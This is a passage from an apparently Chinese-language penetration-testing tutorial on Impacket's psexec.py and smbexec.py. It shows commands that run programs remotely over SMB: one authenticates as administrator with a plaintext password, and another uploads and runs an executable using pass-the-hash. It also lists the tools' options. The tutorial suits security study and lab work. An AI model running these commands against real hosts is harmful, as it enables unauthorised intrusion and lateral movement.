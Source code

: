 ```bash
py -3 psexec.py test/administrator:1qaz@WSX@192.168.40.156 whoami
```

[![](assets/1702372846-ea4e5c8388218a9c91fba5c4afe3f006.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124122920-909b866a-6bb0-1.png)

**上传文件并执行**

```bash
py -3 psexec.py test/administrator@192.168.40.156 "/c 1+1"  -remote-binary-name test.exe  -codec 936 -path c:\windows\temp\ -c p.exe -hashes :161cff084477fe596a5db81874498a24
```

#### 常用选项

```bash
-port [destination port] 指定目标 SMB 的端口
-codec codec 目标回显的编码，可先执行 chcp.com 拿到回显编码
-service-name service_name 指定创建服务的名称，默认随机
-remote-binary-name remote_binary_name 指定上传文件的名称，默认随机
```

### smbexec.py

可使用密码认证、hash 认证、kerberos 认证。

需要注意此脚本有一些参数是硬编码的，最好使用前修改一下。还可以增加单行命令执行的功能。

[![](assets/1702372846-147b0d3a3feb75f71e39ee15830d3d2f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124122940-9ce681ae-6bb0-1.png)
